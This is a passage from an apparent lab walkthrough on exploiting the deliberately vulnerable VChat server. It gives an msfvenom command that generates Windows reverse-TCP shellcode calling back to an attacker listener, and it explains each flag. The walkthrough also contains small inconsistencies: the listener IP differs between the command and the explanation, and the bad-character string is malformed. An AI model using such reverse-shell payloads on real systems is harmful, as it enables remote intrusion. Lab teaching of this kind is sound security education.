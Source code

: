 			<img src="Images/I26.png" width=600>

		3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program

			<img src="Images/I53.png" width=800>

4.  Generate the second stage reverse shell code using ```msfvenom``` program, and create a exploit as shown in [exploit12c-MULT.py](./SourceCode/exploit12c-MULT.py) 
	<!-- Look into ADD -a x86 and --platform windows -->
	```
	$ msfvenom  -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for windows
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
    	* `EXITFUNC=thread`: Create a thread to run the payload
  	* `-f`: The output format 
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name
    	* `SHELL`: Shell Variable name
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values 